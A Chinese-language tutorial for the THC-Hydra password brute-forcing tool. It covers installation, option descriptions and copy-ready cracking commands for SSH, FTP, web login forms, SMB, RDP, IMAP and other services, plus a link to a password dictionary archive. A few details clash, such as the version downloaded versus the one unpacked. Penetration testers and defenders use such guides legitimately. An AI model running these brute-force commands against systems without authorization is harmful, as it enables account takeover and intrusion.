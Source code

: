 # 暴力工具 hydra

## 一、简介

hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：<http://www.thc.org/thc-hydra>，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

## 二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：
	sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra

Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：
	yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel

hydra下载地址：<http://www.thc.org/releases/hydra-7.3.tar.gz>

	# tar zxvf hydra-7.0-src.tar.gz
	# cd hydra-7.0-src
	# ./configure
	# make
	# make install

hydra支持GUI图形界面，不过习惯还是命令好用。

## 三、参数说明

	hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
	[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]

	-R 继续从上一次进度接着破解。
	-S 采用SSL链接。
	-s PORT 可通过这个参数指定非默认端口。
	-l LOGIN 指定破解的用户，对特定用户破解。
	-L FILE 指定用户名字典。
	-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
	-P FILE 大写，指定密码字典。
	-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
	-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
	-M FILE 指定目标列表文件一行一条。
	-o FILE 指定结果输出文件。
	-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
	-t TASKS 同时运行的线程数，默认为16。
	-w TIME 设置最大超时的时间，单位秒，默认是30s。
	-v / -V 显示详细过程。
	server 目标ip

service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。

OPT 可选项

## 四、各种用法实例

1、破解ssh：

	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
	hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4、post方式提交，破解web登录：

	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,`<title>`中的内容是表示错误猜解的返回信息提示。）

5、破解https：

	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

	hydra -P pass.txt 10.36.16.18 cisco
	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

	hydra -l administrator -P pass.txt 10.36.16.18 smb 

9、破解pop3：

	hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

	hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

	hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

## other

[字典](http://big2.gd2.xdowns.com:8082/p/wpa2pojiezidian.rar)
